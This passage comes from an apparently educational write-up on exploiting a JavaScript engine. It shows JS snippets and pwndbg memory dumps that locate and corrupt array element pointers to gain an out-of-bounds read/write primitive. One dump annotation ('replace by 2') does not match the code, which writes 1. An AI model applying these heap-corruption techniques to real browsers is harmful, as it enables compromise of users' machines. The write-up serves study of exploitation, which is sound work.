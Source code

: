 `dblArrOffset` is offset of `OobDblArr` from either `OobObjArr` or `OobDblArr2`. Old value is saved. We overwrite the `elements` member of `OobDblArr2` with the `addr`. Now, we store the address at `oobDblArr2[0]` which is `addr + 0x8`

```js
var dblIndex = searchDblArrIndex(arrAddr, corruptedArr, 0x40504000/2, 0x40508000/2, arrAddr + 0x1000);
```

We have large OOB read from `corruptedArr`. We try to find address of `oobDblArr`'s element object. We do this by starting our search from an address (can be
see through DebugPrint(`oobDblArr`). This gives idea of where to start). We find the offset of that address from `corruptedArr`. We search the memory for numbers stored in `oobDblArr`. One thing to note is that `oobDblArr` is array of type double because it has a double precision number (1.5) in it. 0x41 is represented as 0x0000000040504000 and 0x42 is 0x0000000040508000. If we do DebugPrint(`corruptedArr`), we see that `corruptedArr` is SMI type array. Each index in `oobDblArr` jumps 8-bytes and for `corruptedArr` it jumps 4-bytes. We run loop and find the numbers but these numbers also appear before the `oobDblArr`. So, we need to run the loop again to find numbers at correct address.


As we can see `oobDblArr` is at address 0x020300042191, so we start our search from a little before that say 0x42191.

```bash
pwndbg> x/50wx 0x020300042191-1
0x20300042190:	0x0018e4c1	0x00000219	0x00000219	0x00182271
0x203000421a0:	0x00000901	0x0000000a	0x00000000	(0x40504000) // we need next one, not this
0x203000421b0:	0x00000000	0x40508000	0x00000000	0x40544000
0x203000421c0:	0x00000000	0x40548000	0x00000000	0x3ff80000
0x203000421d0:	0x0018ece5	0x00000219	0x000421e9	0x0000000a
0x203000421e0:	0x0000117d	0x00207c81	0x00000901	0x0000000a
0x203000421f0:	0x00000000	0x40504000	0x00000000	0x40508000
0x20300042200:	0x00000000	0x40544000	0x00000000	0x40548000
0x20300042210:	0x00000000	0x3ff80000	0x00000901	0x00000006
0x20300042220:	0x00000000	0x40504000	0x00000000	0x40508000
0x20300042230:	0x00000000	0x3ff80000	0x0018ece5	0x00000219
0x20300042240:	0x00042251	0x00000006	0x0000117d	0x00207cad
0x20300042250:	0x00000901	0x00000006
```

```js
corruptedArr[dblIndex + 3] = 1;
```

We write 1 to `dblIndex + 3` because our first find of DblArrIndex is bogus and we patch it so we don't find it again in the search.

```bash
pwndbg> x/50wx 0x1ca000042191-1
0x1ca000042190:	0x0018e4c1	0x00000219	0x00000219	0x00182271
0x1ca0000421a0:	0x00000901	0x0000000a	0x00000000	(0x00000002) replace by 2.
0x1ca0000421b0:	0x00000000	0x40508000	0x00000000	0x40544000
0x1ca0000421c0:	0x00000000	0x40548000	0x00000000	0x3ff80000
0x1ca0000421d0:	0x0018ece5	0x00000219	0x000421e9	0x0000000a
0x1ca0000421e0:	0x0000117d	0x00207c81	0x00000901	0x0000000a
0x1ca0000421f0:	0x00000000	0x40504000	0x00000000	0x40508000
0x1ca000042200:	0x00000000	0x40544000	0x00000000	0x40548000
0x1ca000042210:	0x00000000	0x3ff80000	0x00000901	0x00000006
0x1ca000042220:	0x00000000	0x40504000	0x00000000	0x40508000
0x1ca000042230:	0x00000000	0x3ff80000	0x0018ece5	0x00000219
0x1ca000042240:	0x00042251	0x00000006	0x0000117d	0x00207cad
0x1ca000042250:	0x00000901	0x00000006
```
